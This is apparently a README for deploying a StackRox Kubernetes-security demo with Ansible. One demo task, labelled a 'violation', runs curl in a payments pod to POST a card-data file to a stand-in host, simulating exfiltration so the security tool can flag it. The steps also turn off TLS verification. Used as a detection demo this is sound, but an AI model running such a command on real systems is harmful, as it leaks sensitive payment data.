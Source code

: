 # Stackrox Demo

## Deploy central

TODO

## Deploy demo

Create secrets.yaml and review it.

```sh
cp ansible/group_vars/all/secrets.yaml.sample ansible/group_vars/all/secrets.yaml
```

Install the pre-requisites.

```sh
ansible-galaxy collection install kubernetes.core
sudo dnf install python3-openshift
```

Patch the existing roles.

```sh
echo -n > ansible/roles/ocp4_workload_stackrox_demo_apps/tasks/pre_workload.yml
echo -n > ansible/roles/ocp4_workload_stackrox_demo_pipeline/tasks/pre_workload.yml
```

Edit `roles/ocp4_workload_stackrox_demo_apps/tasks/deploy_demos.yml` and modify accordingly.

```yaml
- name: k8s_exec violation
  kubernetes.core.k8s_exec:
    namespace: payments
    pod: "{{ r_processor_pod.resources[0].metadata.name }}"
    command: 'curl -X POST --data-binary @/var/lib/processor/card_data http://innocent.site.web'
    ignore_errors: yes
```

Deploy the demo.

```sh
cd ansible
export K8S_AUTH_VERIFY_SSL=false
export K8S_AUTH_KUBECONFIG="$KUBECONFIG"
ansible-playbook install.yaml
```

## With a custom registry

```sh
./mirror.sh
oc apply -f icsp.yaml
podman login registry.itix.xyz
base64 -w0 ${XDG_RUNTIME_DIR}/containers/auth.json > /tmp/auth.b64
echo "ocp4_workload_stackrox_demo_apps_pull_secret: $(cat /tmp/auth.b64)" >> ansible/group_vars/all/secrets.yaml
```
